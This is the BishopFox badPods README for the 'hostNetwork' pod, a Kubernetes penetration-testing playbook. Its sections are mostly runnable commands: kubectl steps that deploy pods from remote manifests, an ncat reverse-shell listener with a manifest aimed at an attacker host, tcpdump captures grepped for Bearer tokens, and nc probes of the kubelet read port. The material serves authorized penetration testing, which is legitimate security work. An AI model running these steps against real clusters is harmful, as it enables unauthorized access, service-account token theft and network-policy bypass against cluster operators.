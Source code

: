 # Bad Pod #6: hostNetwork

If you only have `hostNetwork=true`, you can't get privileged code execution on the host directly, but if your cross your fingers you might still find a path to cluster admin. There are two potential escalation paths: 
* **Sniff traffic** - You can use `tcpdump` to sniff unencrypted traffic on any interface on the host. You might get lucky and find `service account` tokens or other sensitive information that is transmitted over unencrypted channels.
* **Access services bound to localhost** - You can also reach services that only listen on the host’s loopback interface or that are otherwise blocked by network polices. These services might turn into a fruitful privilege escalation path.
* **Bypass network policy** - If a restrictive network policy is applied to the namespace, deploying a pod with `hostNetwork=true` allows you to bypass the restrictions because you are bound to the host's network interfaces, and not the pod. 
## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post Exploitation](#post-exploitation)
  - [Install tcpdump and sniff traffic](#install-tcpdump-and-sniff-traffic)
  - [Investigate local services](#investigate-local-services)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)


# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl exec -it hostnetwork-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/[RESOURCE_TYPE]/hostnetwork-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostnetwork-exec-[RESOURCE_TYPE]      
kubectl exec -it hostnetwork-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostnetwork-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostnetwork/[RESOURCE_TYPE]/hostnetwork-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl delete pod hostnetwork-exec-pod
kubectl delete cronjob hostnetwork-exec-cronjob
```


# Post Exploitation 

## Install tcpdump and sniff traffic 
*If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes `tcpdump`, like https://hub.docker.com/r/corfr/tcpdump*

```bash
apt update && apt -y install tcpdump net-tools netcat
```
You now have a few options for next steps: 

**See if the `kubelet` read port (10255/tcp) is open on any of the node's IPs**
```bash
nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!
```

**If the read port is open, run `tcpdump`, recording the output to a file for a few minutes**

**Warning:** Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
**Warning:** Always run `tcpdump` with the `-n` flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 

```bash
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255
```

**Stop the capture and read the file with `tcpdump`.  Tip: Use the `-A` flag to only show the printable characters and hunt for things like tokens with `grep`** 

```bash
tcpdump -ro kubelet-ro.cap -s0 -A
tcpdump -ro kubelet-ro.cap -s0 -A | grep Bearer
```

Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt. If you are really lucky, that token might be associated with a service account in `kube-system`.


## Investigate local services
```bash
curl https://localhost:1234/metrics
```

## Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 
